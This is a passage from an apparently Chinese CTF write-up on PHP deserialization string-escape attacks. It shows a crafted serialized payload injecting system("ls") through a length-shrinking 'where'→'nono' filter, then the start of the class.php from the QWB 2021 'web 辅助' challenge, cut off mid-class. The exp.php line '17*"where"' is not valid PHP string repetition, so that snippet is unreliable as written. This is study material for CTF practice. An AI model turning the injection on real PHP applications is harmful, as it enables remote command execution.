 总的来说就是利用长度变小使得 p1 将 p2 的内容给吞掉,然后 p2 处注入 key 的内容.
1. p2 需要构造的内容为 :`";s:3:"key";s:13:"system("ls");";}`, 此时 p2 序列化的内容为: `s:2:"p2";s:34:"";s:3:"key";s:13:"system("ls");";}"`
2. p1 需要将 p2 前半段给吞掉,也就是 `";s:2:"p2";s:34:"` 长度为 17 ,因此需要构造 17 个 where 替换为 nono.


exp.php
```php
$p1 = 17*"where";
$p2 = '";s:3:"key";s:13:"system("ls");";}';
```


# 其他题目

## 强网杯 2021 web 辅助

class.php
```php
<?php
class player{
    protected $user;
    protected $pass;
    protected $admin;

    public function __construct($user, $pass, $admin = 0){
        $this->user = $user;
        $this->pass = $pass;
        $this->admin = $admin;
    }

    public function get_admin(){
        return $this->admin;
    }
}

class topsolo{
    protected $name;

    public function __construct($name = 'Riven'){
        $this->name = $name;
    }

    public function TP(){
        if (gettype($this->name) === "function" or gettype($this->name) === "object"){
            $name = $this->name;
            $name();
        }
    }

    public function __destruct(){
        $this->TP();
    }

}

class midsolo{
    protected $name;

    public function __construct($name){
        $this->name = $name;
    }

    public function __wakeup(){
```